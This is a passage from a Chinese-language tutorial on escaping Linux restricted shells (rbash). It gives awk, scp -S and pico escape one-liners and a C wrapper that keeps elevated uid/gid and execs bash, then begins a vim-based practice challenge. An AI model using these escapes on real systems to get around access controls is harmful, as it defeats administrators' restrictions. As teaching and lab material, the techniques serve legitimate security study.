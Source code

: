 ```bash
awk 'BEGIN {system("/bin/bash")}'
```

scp：

```bash
 scp -S ./spellbash.sh 127.0.0.1:/tmp/z.zip ./
```

scp -S program： 指定加密传输时所使用的程序

我们这个spellbash.sh脚本功能就在于给shell加权限执行

shell代码如下：

```bash
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
int main(int argc, char **argv, char **envp)
{
    setresgid(getegid(), getegid(), getegid());
    setresuid(geteuid(), geteuid(), geteuid());

    execve("/bin/bash", argv,  envp);
    return 0;
}
```

pico：

```
pico -s "/bin/bash"
然后输入/bin/bash按CTRL + T
```

##  四、实战操作

针对于Linux Restricted Shell绕过技巧基本上是介绍到了，接下来就是灵活运用的问题，我这里选择了一个挑战来运用一下文中的一些技术。

连接上机器，经过一番信息收集，我们发现只有vim可以利用一下：

![实战操作](https://image.3001.net/images/20181110/1541820978_5be652327a4ec.png!small)

尝试

```bash
!/bin/bash
/bin/rbash: /bin/bash: restricted: cannot specify `/' in command names
```

继续尝试

```bash
set shell=/bin/bash
shell
```
